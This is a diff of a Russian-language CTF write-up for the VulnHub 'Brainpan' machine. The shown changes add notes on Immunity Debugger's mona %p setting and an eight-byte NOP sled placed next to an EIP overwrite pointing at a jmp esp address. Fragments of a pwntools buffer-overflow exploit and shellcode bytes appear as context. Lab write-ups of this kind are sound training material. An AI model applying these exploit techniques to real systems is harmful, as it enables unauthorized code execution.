

Before and after one commit to 0x2d-pentest/VulnHub, a Markdown page: 41-Brainpan/writeup.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/41-Brainpan/writeup.md
+++ b/41-Brainpan/writeup.md
@@ -272,6 +272,7 @@ io.interactive()
 
 Небольшая настройка immunity debugger
 `!mona config -set workingfolder c:\mona\%p`
+ - `%p` берёт имя текущего процесса, можно руками было написать `brainpan`
 
 Массив байтов можно сгенерировать в **mona** и исключить из него нулевой **"\x00"**
 `!mona bytearray -b "\x00"`
@@ -354,9 +355,11 @@ stack += b"\x39\x61\x75\x91\xea\xf8\x9b\xa5\x06\x36\xdb"
 ```
 
 Устанавливаю **EIP** на адрес инструкции `jmp esp` (**0x311712f3**).
-Для этого воспользуюсь функцией `p32()` из `pwnlib`
+Для этого воспользуюсь функцией `p32()` из `pwnlib`.
+Также добавлю 8 `nop` на случай, если на целевой машине немного промахнусь, но должно и без этого сработать в данном задании
 ```python
 EIP     = p32(0x311712f3)
+nop     = b'\x90'*8
 ```
 
 Итоговый код:
````
